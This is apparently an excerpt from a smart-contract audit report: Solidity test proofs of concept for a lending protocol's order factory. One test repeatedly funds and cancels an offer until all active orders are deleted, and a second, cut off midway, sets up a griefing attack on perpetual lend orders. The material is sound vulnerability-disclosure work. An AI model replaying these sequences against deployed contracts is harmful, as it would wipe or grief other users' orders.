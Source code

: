```solidity
        lender1.addFunds(5e18);
        lender1.cancelOffer();
        lender1.addFunds(5e18);
        lender1.cancelOffer();
        lender1.addFunds(5e18);
        lender1.cancelOffer();

        // All other offers got deleted
        assertEq(DLOFactoryContract.activeOrdersCount(), 0);
    }
```

```solidity
    function testAuditGriefingChangePerpetual() public {
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory lendOrders = allDynamicData
            .getDynamicAddressArray(5);

        ratio[0] = 2e18;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = AERO;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        // Create 5 Lend Orders
        for(uint i = 0; i < 5; i++) {
          // Order has to be perpetual
          lendOrders[i] = DLOFactoryContract.createLendOrder(
              true,
              oraclesActivated,
              false,
              ltvs,
              1000,
              8640000,
              86400,
              acceptedPrinciples,
              AERO,
              oraclesPrinciples,
              ratio,
              address(0x0),
              5e18
          );
        }

        address[] memory lendOrdersArr = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(1);
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);

        lendOrdersArr[0] = lendOrders[0];
```